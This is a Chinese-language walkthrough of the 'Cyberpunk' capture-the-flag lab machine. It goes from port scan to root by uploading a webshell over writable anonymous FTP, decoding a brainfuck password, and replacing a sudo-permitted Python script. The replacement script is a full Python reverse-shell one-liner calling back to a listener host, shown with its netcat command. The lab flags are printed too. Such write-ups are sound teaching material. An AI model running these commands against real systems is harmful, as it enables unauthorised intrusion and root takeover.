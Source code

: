 # Cyberpunk

2025.03.08 https://thehackerslabs.com/cyberpunk/

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 可匿名并有写权限，secret.txt 显示信息。发现 ftp 目录中的信息在 80 web 上显示，并且 ftp 有写权限，直接上传 webshell。

得到 web shell 后，进行系统枚举：

```
www-data@Cyberpunk:/$ cat opt/arasaka.txt
++++++++++[>++++++++++>++++++++++++>++++++++++>++++++++++>+++++++++++>+++++++++++>++++++++++++>+++++++++++>+++++++++++>+++++>+++++>++++++<<<<<<<<<<<<-]>-.>+.>--.>+.>++++.>++.>---.>.>---.>.>--.>-----..
```

brainfuck 解码得到 cyberpunk2077 ， 应该是 arasaka 的用户密码。

拿到 user flag：

```
arasaka@Cyberpunk:~$ cat user.txt
41311c28da287ef8acf6ad429c42c5d2
```

sudo -l 显示 (root) PASSWD: /usr/bin/python3.11 /home/arasaka/randombase64.py

目前对 /home/arasaka/randombase64.py 没有直接修改内容权限，但是这个文件在 arasaka 自身目录，可以将其删除，然后新建写入我们需要的执行命令：

```
cd
rm -f randombase64.py
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.3",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > randombase64.py
```

然后执行得到反弹 shell：

```
nc -lvnp 8888
sudo /usr/bin/python3.11 /home/arasaka/randombase64.py
```

读取到 root flag：

```
root@Cyberpunk:~# cat root.txt
344a4a8f53d36e7449957489701b040f

Enhorabuena, has podido desactivar el relic y salvar la vida de V.

La transferencia de eddies a tu cuenta se ha mandado :D
```
